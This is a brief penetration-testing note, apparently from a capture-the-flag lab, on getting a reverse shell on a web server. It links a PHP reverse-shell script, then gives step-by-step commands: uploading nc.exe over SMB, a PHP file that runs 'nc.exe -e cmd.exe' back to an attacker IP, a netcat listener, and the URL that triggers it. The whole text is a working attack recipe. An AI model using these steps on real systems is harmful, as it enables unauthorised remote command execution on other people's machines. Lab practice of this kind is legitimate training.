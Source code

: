 # Option 1
Upload a php file to a php web server and initiate a reverse shell
https://github.com/pentestmonkey/php-reverse-shell

# Option 2

upload file nc.exe from /usr/share/windows-resources/binaries/nc.exe to web root folder on Victim machine via smb  
smb: \> put nc.exe

Create file rev.php
gedit rev.php
<?php
system('nc.exe -e cmd.exe 10.10.14.25 4444')
?>

upload file rev.php to web root folder on Victim machine via smb  
smb: \> put rev.php

─# nc -nvlp 4444                                
listening on [any] 4444 ...

Access file rev.php on web
http://10.129.188.154:8808/rev.php

Back to nc screen, we should have shell now.



